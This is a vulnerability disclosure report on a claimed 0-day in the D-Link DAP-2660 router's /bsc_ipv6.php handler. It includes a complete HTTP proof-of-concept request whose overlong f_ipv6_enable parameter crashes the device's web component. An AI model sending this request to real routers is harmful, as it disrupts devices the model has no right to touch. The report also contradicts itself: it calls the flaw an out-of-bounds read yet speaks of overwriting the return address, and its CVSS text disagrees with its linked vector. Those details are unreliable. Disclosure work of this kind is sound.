



# D-Link DAP-2660 wireless router /bsc_ipv6 buffer read out-of-bounds vulnerability

## 1 Basic Information

- Vulnerability Type: Buffer read out-of-bounds
- Vulnerability Description: A buffer overflow vulnerability exists in D-Link DAP-2660 wireless router. Its /bsc_ipv6 implementation has a security vulnerability in processing f_ipv6_enable POST key parameters, allowing remote attackers to submit special requests through the vulnerability, causing buffer out-of-bounds read errors, which may lead to memory-sensitive information leakage and denial of service.
- Device model:
  - DAP-2660 
  - version:1.13 

## 2 Vulnerability Value

- Maturity of Public Information: None

- Order of Public Vulnerability Analysis Report: None

- Stable reproducibility: yes

- Vulnerability Score (refer to CVSS)

   - V2：[8.5 High AV:N/AC:M/Au:S/C:C/I:C/A:C](https://nvd.nist.gov/vuln-metrics/cvss/v2-calculator?vector=(AV:N/AC:M/Au:S/C:C/I:C/A:C))
   - V3.1：[8.6 High AV:N/AC:L/PR:H/UI:N/S:C/C:H/I:H/A:H](https://nvd.nist.gov/vuln-metrics/cvss/v3-calculator?vector=AV:N/AC:L/PR:N/UI:N/S:C/C:N/I:N/A:H&version=3.1)

- Exploit Conditions

   - Attack Vector Type: Network
   - Attack Complexity: Low
   - Complexity of Exploit
     - Permission Constraints: authentication is required
     - User Interaction: No victim interaction required
   - Scope of Impact: Changed (may affect other components than vulnerable ones)
   - Impact Indicators:
     - Confidentiality: High
     - Integrity: High
     - Availability: High
   - Stability of vulnerability exploitation: Stable recurrence
   - Whether the product default configuration: There are vulnerabilities in functional components that are enabled out of the factory

- Exploit Effect

   - Denial of Service

## 3 PoC

The PoC of D-Link DAP-2660 is as follows:
```http
POST /bsc_ipv6.php HTTP/1.1
Host: 0.0.0.0:49162
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 1739
Origin: http://0.0.0.0:49162
Connection: keep-alive
Referer: http://0.0.0.0:49162/bsc_ipv6.php
Cookie: session_uid=msrzukjeuf
Upgrade-Insecure-Requests: 1

f_ipv6_enable=1111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111&ACTION_POST=bsc_ipv6&ipv6_enable=1&ipv6_lantype=auto&ipaddr6=&prefix=&gateway6=
```
## 4 Vulnerability Principle

When the Web management component receives a POST request, its /bsc_ipv6 component implements a security vulnerability in processing the f_ipv6_enable POST key parameter. The length of the parameter key of f_ipv6_enable can be any length and it is put into the stack without any boundary check, resulting in a read out-of-bounds. An attacker can exploit this vulnerability to overwrite the return address, which may lead to the disclosure of memory-sensitive information and denial of service.

The firmware is simulated by means of simulation, the simulation process and interface are as follows:




After sending the PoC, a buffer read out-of-bounds memory error occurred, encountered an `unexpected fatal signal 11` error and a BadVA error, causing the program to crash.






## 5. The basis for judging as a 0-day vulnerability

Search the bsc_ipv6 keyword in the NVD database, and no vulnerabilities are found.
Search the bsc_ipv6 keyword in the CNVD database, and no vulnerabilities are found.